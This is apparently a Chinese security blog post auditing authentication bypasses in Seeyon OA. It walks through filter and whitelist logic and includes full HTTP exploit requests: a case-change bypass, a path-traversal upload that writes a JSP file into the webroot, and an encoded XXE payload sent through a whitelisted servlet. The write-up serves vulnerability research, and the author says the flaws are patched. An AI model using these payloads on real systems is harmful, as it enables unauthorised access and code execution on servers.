 致远OA代码审计系列二
===========

原创 作者:archive 公号:安全回忆录 发布时间:2023-11-29 0:09 发表于北京

原文地址：[致远OA代码审计系列二](https://mp.weixin.qq.com/s/CRXxqaA2yRcRzdil1kyYAg)

**前言**  

上文简单介绍致远OA的审计环境的搭建以及OA的路由、权限校验的一些点, 本章节主要针对致远OA权限绕过进行一个分析总结. 结合致远OA历史漏洞进行分析讲解。

> 致远OA代码审计系列一
> 
> archive，公众号：安全回忆录[致远OA代码审计系列一](http://mp.weixin.qq.com/s?__biz=MzkyNjM1MDMyMg==&mid=2247483794&idx=1&sn=84af07a085a3b67efb46e9b09ea17018&chksm=c239ef0ff54e6619906b8ad3db6c26e1c2517356c80920493898cd472682b8da463bb4922757#rd)

《致远OA代码审计系列一》分析了致远OA的相关路由和权限认证模块, 本章节重点分享致远OA的相关权限绕过思路。

**权限绕过分析:**

**![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMsZW8N6TQoz4av7ibkU7OdibgxWoIKZJJQMc3EP9629Te0osP72MhJ8LBAyVTOJ6uzhvKibs7rRDxJPw/640?wx_fmt=png&from=appmsg)**

1.  **如何让认证器走到defaultAuthenticator.**
    

由于默认的defaultAuthenticator的authenticate仅进行了uri.startsWith()判断, 所以只要咱们访问的路径没在以上7个判断类型中, 进入到defaultAuthenticator即可通过致远OA的权限校验。

结合致远OA CTPSecurityFilter中的几个is判断. 不难看出想要进入defaultAuthenticator. 必须经过多个if判断。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMsZW8N6TQoz4av7ibkU7OdibgY6VI0wm6TtPrbq9eEp073RH0IaHuiaxMkU0pS59t0JVoGWGMF0Xyt1A/640?wx_fmt=png&from=appmsg)

直接先上绕过payload, 该绕过思路于2022年大HW前被官方修复, 由于官方补丁有进行加密. 网上一直没有相关漏洞信息. 所以该漏洞传播面没有那么广, 2022年HW和2023大HW该漏洞也还能都能遇到。

```http
GET /seeyon/organization/member.do;Jsessionid=??method=listByAccount&rescode=T02_memberList HTTP/1.1
Host: x.x.x.x:8890
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

由于8.1SP1对uri没有做大小写校验,直接通过Jsessionid大小写绕过了isSpringController的校验, 进入下一个if判断. 最终会走到defaultAuthenticator, 默认的认证器仅对uri进行了校验。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMsZW8N6TQoz4av7ibkU7Odibgno7rDQltJvicibHvRHRny4VNr0MbgEyA1x9OggIxiaQcMFbs92DNzzq0A/640?wx_fmt=png&from=appmsg)

至此就绕过了致远OA的权限校验模块,权限绕过后利用的漏洞以及利用手法在后面的文章会进行分析。

**2\. 认证器中的白名单利用:**

今年9月爆出的致远/rest/phoneLogin/phoneCode/resetPassword任意密码重置漏洞. 其走的认证器是restAuthenticator, 但是该接口在anonymousWhiteList中,所以可以通认证, 导致任意密码重置。这就是一个典型的认证器中白名单利用。  

```cs
static {
        sessionUserBlacklist.add(Pattern.compile(".*\\sorgMember.*"));
        sessionUserBlacklist.add(Pattern.compile(".*\\sorgAccount.*"));
        sessionUserBlacklist.add(Pattern.compile(".*\\sorgDepartment.*"));
        sessionUserBlacklist.add(Pattern.compile(".*\\sorgPost.*"));
        sessionUserBlacklist.add(Pattern.compile(".*\\sorgLevel.*"));
        sessionUserBlacklist.add(Pattern.compile(".*\\sexternalAccount.*"));
        sessionUserBlacklist.add(Pattern.compile(".*\\sorgPartTimeJob.*"));
        sessionUserBlacklist.add(Pattern.compile(".*\\sjoinOrgAccount.*"));
        sessionUserBlacklist.add(Pattern.compile(".*\\sjoinOrgDepartment.*"));
        sessionUserBlacklist.add(Pattern.compile(".*\\sjoinOrgPost.*"));
        sessionUserBlacklist.add(Pattern.compile(".*\\sjoinOrgMember.*"));
        sessionUserBlacklist.add(Pattern.compile(".*\\sjoinOrgRole.*"));
        sessionUserBlacklist.add(Pattern.compile(".*\\sjoinMetadataDepartment.*"));
        anonymousWhiteList = Arrays.asList("token", "application.wadl", "jssdk", "getRestCompare", "authentication", "cap4/form/pluginScripts", "orgMember/avatar", "orgMember/groupavatar", "m3/appManager/getAppList", "m3/appManager/download", "m3/message/unreadCount/", "m3/login/refresh", "m3/login/verification", "m3/theme/homeSkin", "m3/theme/homeSkinDownload", "m3/common/service/enabled", "uc/systemConfig", "product/hasPlugin", "product/dongle/data", "password/retrieve", "phoneLogin/phoneCode", "m3/appManager/checkEnv", "m3/security/device/apply", "meeting/meetingInviteCard", "microservice", "media/verify", "paperlessMeetingResource/device/save", "metrics", "ocip/forwardTo", "imc/orgInfo");
        guestWhiteList = Arrays.asList("webOffice/checkWebOfficeEnable", "webOffice/getBookMarkUpdateFlag", "supervision/bigScreen/column");
        visitorWhiteList = Arrays.asList("publicQrCode", "attachment", "commonImage", "m3/common/getConfigInfo", "meeting", "cmpNews", "doc");
    }
```

历史thirdpartycontroller.do导致的任意用户登陆, 由于当前V8.0SP1版本不存在该漏洞,根据网上分析判断. 该漏洞原因为thirdpartycontroller.do在白名单内, 最终会执行到session.setAttribute("com.seeyon.current\_user", currentUser), 产生了任意用户登陆漏洞, 进入后台后RCE。

**3. web.xml中的filter/servlet和CTPSecurityFilter中的差异**

利用web.xml中配置的filter和servlet进行绕过. 之前的文章提到过CTPSecurityFilter中的isServlet方法中servlets列表中的servlet列表远比web.xml中定义的少, 导致许多web.xml中配置的servlet可以直接访问. 进入defaultAuthenticator认证器。

wpsAssistServlet:

```http
POST /seeyon/wpsAssistServlet?flag=save&realFileType=../../../../ApacheJetspeed/webapps/ROOT/redt3am.jsp&fileId=2 HTTP/1.1
Host: 192.168.246.4
Content-Length: 349
Content-Type: multipart/form-data; boundary=59229605f98b8cf290a7b8908b34616b
Accept-Encoding: gzip


--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="upload"; filename="test.txt"
Content-Type: application/vnd.ms-excel


<% out.println("seeyon_vuln");%>
--59229605f98b8cf290a7b8908b34616b--
```

该Servlet就不在servlets列表中. 所以会进入最终的defaultAuthenticator认证器。  

```typescript
private static List<String> servlets = Arrays.asList("getAJAXMessageServlet", "getAJAXOnlineServlet", "htmlofficeservlet", "isignaturehtmlH5servlet", "isignaturehtmlservlet", "login/sso", "login/ssologout", "m-signature/", "ofdServlet", "office/cache/", "officeservlet", "pdfservlet", "sursenServlet", "verifyCodeImage.jpg");
```

  

4. **几个if判断语句是否存在绕过**

前段时间出的XXE攻击的S1服务组件Agent, 利用JDBC H2漏洞RCE. 其实就是利用了这个思路绕过。

```http
POST /seeyon/m-signature/RunSignature/run/getAjaxDataServlet?S=ajaxEdocSummaryManager&M=deleteUpdateObj HTTP/1.1
Host: 192.168.246.4
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
RequestType: AJAX
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 426


signdata=11&encode=true&imgvalue=YWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFh&elemid=111&xmlValue=PD94bWwgdmVyc2lvbj0iMS4wIj8%2bCjwhRE9DVFlQRSB0zXN0Wwo8IUVOVElUWSBmaWxlIFNzU1RFTSAiaHR0cDovLZExNi4xOTYuMTAxLjg4Ojc5NZkvYS50eHQiPgpdPgo8dXNlcj48dXNlcm5hbWU%2bJmzpbGU7PC91c2VybmFtzT48cGFZc3dvcmQ%2bMTwvcGFZc3dvcmQ%2bPC91c2VyPg%3d%3d
```

该url以getAjaxDataServlet结尾, 毫无疑问在isV3xAjax判断中返回true, 在V3xAjaxAuthenticator中之前提到. 只要在WHITE\_LIST中的ServiceName和methodName即可通过。

```javascript
private static final Set<String> WHITE_LIST = new HashSet(Arrays.asList("ajaxColManager_colDelLock", "ajaxEdocSummaryManager_deleteUpdateObj", "ajaxEdocManager_ajaxCheckNodeHasExchangeType", "ajaxEdocSummaryManager_deleteUpdateRecieveObj"));

```

S=ajaxEdocSummaryManager&M=deleteUpdateObj S和M参数在白名单里面,为白名单即可通过认证器的认证。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMsZW8N6TQoz4av7ibkU7OdibgtdicMneE4ib8SSTrTqEAkrRZxGT02VhtVbpSMwAh7gOq9p3fpjlMKWdw/640?wx_fmt=png&from=appmsg)

但是最终访问的路由并没有访问到AJAXDataServlet. 而是进入ActionServlet。ActionServlet会对uri通过/进行分割。 然后通过反射调用对应的action. 由于对class会自动添加action后缀。 只能反射访问action类。路由为/class/method/的形式. 具体的细节后续文章会进行分析。

为什么直接访问/m-signature/不行? 单独访问会进入isServlet判断, 且该判断会返回true, m-signature也不在isServlet的白名单列表当中。 所以这里利用了几个if的先后顺序, 优先进入了V3xAjaxAuthenticator认证器中. 而不会进入后续的isServlet判断.

```php
private static List servlets = Arrays.asList("getAJAXMessageServlet", "getAJAXOnlineServlet", "htmlofficeservlet", "isignaturehtmlH5servlet", "isignaturehtmlservlet", "login/sso", "login/ssologout", "m-signature/", "ofdServlet", "office/cache/", "officeservlet", "pdfservlet", "sursenServlet", "verifyCodeImage.jpg", "wpsServlet");
```

**总结:**

本文章总结了致远OA的一些权限绕过思路, 目前上述提到所有绕过方式官方均已经修复, 已发布漏洞补丁。后续文章将详细分析致远OA的相关历史漏洞。